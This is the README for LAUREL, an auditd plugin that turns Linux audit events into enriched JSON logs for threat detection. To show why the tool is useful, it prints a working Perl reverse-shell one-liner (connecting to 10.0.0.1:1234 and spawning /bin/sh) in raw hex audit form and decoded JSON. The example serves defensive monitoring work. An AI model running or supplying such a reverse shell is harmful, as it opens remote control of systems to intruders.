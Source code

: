 ![logo](laurel.svg)
# Linux Audit – Usable, Robust, Easy Logging

[![Build Status](https://github.com/threathunters-io/laurel/actions/workflows/build.yml/badge.svg)](https://github.com/threathunters-io/laurel/actions/workflows/build.yml)

LAUREL is an event post-processing plugin for _auditd(8)_ that generates useful, enriched JSON-based audit logs suitable for modern security monitoring setups.

Documentation corresponding to the latest stable release can be found [here](https://github.com/threathunters-io/laurel/tree/v0.6.2).

## Why?

TLDR: Instead of audit events that look like this…
```
type=EXECVE msg=audit(1626611363.720:348501): argc=3 a0="perl" a1="-e" a2=75736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B65742…
```
…_LAUREL_ turns them into JSON logs where the mess that attackers/penetration testers/red teamers are trying to make becomes apparent at first glance:
```
{ … "EXECVE":{ "argc": 3,"ARGV": ["perl", "-e", "use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"]}, …}
```
This happens at the source because _LAUREL_ runs on the host where the audit events are generated. Events are enriched with useful information about the parent process (ppid):
```
"PPID":{"EVENT_ID":"1643635026.276:327308","comm":"sh","exe":"/usr/bin/dash","ppid":3190631}
```

## Documentation

Configuration and operational details are described in the [laurel(8)](man/laurel.8.md) manual page.
Details about the log format and rationales can be found in the [laurel-about(7)](man/laurel-about.7.md) manual page. 

The [_LAUREL_ installation instructions](INSTALL.md) contain instructions on how to build _LARUEL_ from source and how to install and configure it.

We developed _LAUREL_ because we were not content with feature sets and performance characteristics of existing projects and products. Please refer to the [Performance](performance.md) document for details.

## Container Image

From v0.5.2 on laurel is able to connect to a socket for forwarded auditd messages and can be executed in a container this way. A basic container image is published in this repository to `ghcr.io/threathunters-io/laurel` with tags `latest` and the respective version tag.

The provided container image build includes default labels via docker buildx from the pipeline. These labels are not included in the provided Dockerfile but are considered good practice. If you use a custom build with another tooling, consider adding the default labels to the Dockerfile.

The provided container image contains the default configuration, with one modification: Laurel connects to `/var/run/audispd_events` (the default path specified for the `builtin_af_unix` _auditd(8)_ plug-in. The plug-in needs to be enabled and the socket must be accessible from within the container. The rest of the configuration file should be customized as needed before deploying.

## See also

- [ansible-auditd-laurel](https://github.com/certeu/ansible-auditd-laurel/), an Ansible role to deploy _auditd_ + _laurel_, by @0xFustang / CERT-EU

## License

GNU General Public License, version 3

## Authors

- Hilko Bengen <<bengen@hilluzination.de>>
- Sergej Schmidt <<sergej@msgpeek.net>>

The logo was created by Birgit Meyer <<hello@biggi.io>>.
